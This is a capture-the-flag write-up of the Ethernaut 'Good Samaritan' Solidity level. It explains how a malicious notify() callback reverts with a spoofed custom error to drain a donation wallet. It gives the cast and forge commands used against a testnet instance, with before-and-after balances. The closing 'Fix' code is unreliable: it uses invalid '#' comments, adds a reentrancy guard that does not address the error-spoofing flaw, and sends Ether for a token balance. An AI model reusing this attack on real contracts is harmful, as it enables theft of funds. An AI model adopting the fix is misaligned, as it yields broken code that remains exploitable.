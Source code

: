 # Good Samaritan

This instance represents a Good Samaritan that is wealthy and ready to donate some coins to anyone requesting it.

Would you be able to drain all the balance from his Wallet?

Things that might help:

[Solidity Custom Errors](https://soliditylang.org/blog/2021/04/21/custom-errors/)

## Vulnerability

1. The attacker calls `requestDonation()` on the `GoodSamaritan` contract.
2. Inside `requestDonation()`, the contract attempts to donate 10 coins to the caller by calling `wallet.donate10(msg.sender)`.
3. If the donation attempt is successful, `wallet.donate10` will internally call `coin.transfer()` to move the coins.
4. Design an attacker's contract to have a `notify()` function. When `coin.transfer()` checks if the recipient address is a contract and calls `notify()`, the attacker's `notify()` function intentionally reverts with a custom error named `NotEnoughBalance()`.
5. The custom error causes the `try-catch` block in `requestDonation()` to catch the error. Since the error matches the condition for `NotEnoughBalance()`, the `wallet.transferRemainder(msg.sender)` is executed, intending to transfer remaining tokens to the attacker.

## Attack

1. Check initial balance.

```bash
# Coin address contract: 0x04BE262c1f2D1b2EFd7eBaaAeD584b8222661916
# initial wallet: 0x2579F0110118287298aE5428539FEe6Db5C55068

cast call 0x04BE262c1f2D1b2EFd7eBaaAeD584b8222661916 "balances(address)(uint256)" 0x2579F0110118287298aE5428539FEe6Db5C55068 --rpc-url $ALCHEMY_RPC_URL --legacy
# 1000000 [1e6]
```

2. Deploy `GoodSamaritanAttack` and the attack will be executed.

```bash
forge script script/DeployGoodSamaritanAttack.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY -vvvv --legacy

# make deploy ARGS="--network sepolia"
# https://sepolia.etherscan.io/address/0x6147bE8Dba9D155875CF4cf9F771212Ef2be6aF5
```

3. Attack

```bash
cast send $CONTRACT_ADDRESS "attack()" --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL --legacy
# https://sepolia.etherscan.io/tx/0x3e47361ae94bbb4ad798347a9d5b88b27913086c787746b390e9ae800aa366bb
```

4. Check balance after attack.

```bash
# Coin address contract: 0x04BE262c1f2D1b2EFd7eBaaAeD584b8222661916
# initial wallet: 0x2579F0110118287298aE5428539FEe6Db5C55068

cast call 0x04BE262c1f2D1b2EFd7eBaaAeD584b8222661916 "balances(address)(uint256)" 0x2579F0110118287298aE5428539FEe6Db5C55068 --rpc-url $ALCHEMY_RPC_URL --legacy
# 0
```

## Fix

```bash
#Importing a reentrancy guard from OpenZeppelin's contracts library
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract GoodSamaritan is ReentrancyGuard {
    mapping(address => uint256) public pendingWithdrawals;

    # Other contract variables and functions

    function requestDonation() external nonReentrant {
        uint256 donationAmount = 10;
        # Assuming `wallet` is an instance of another contract that holds funds
        uint256 walletBalance = wallet.getBalance();

        if (walletBalance >= donationAmount) {
            # Attempt to donate 10 coins
            bool success = wallet.donate10(msg.sender);
            if (!success) {
                revert("Donation failed");
            }
        } else {
            # Instead of transferring directly, update the pending withdrawals
            pendingWithdrawals[msg.sender] += walletBalance;
            # Assuming a function that safely empties the wallet to this contract
            wallet.transferAllTo(address(this));
        }
    }

    function withdraw() public nonReentrant {
        uint256 amount = pendingWithdrawals[msg.sender];
        require(amount > 0, "No funds available for withdrawal");

        # Reset the pending withdrawal before transferring to prevent reentrancy
        pendingWithdrawals[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }

    # Additional functions as needed
}
```
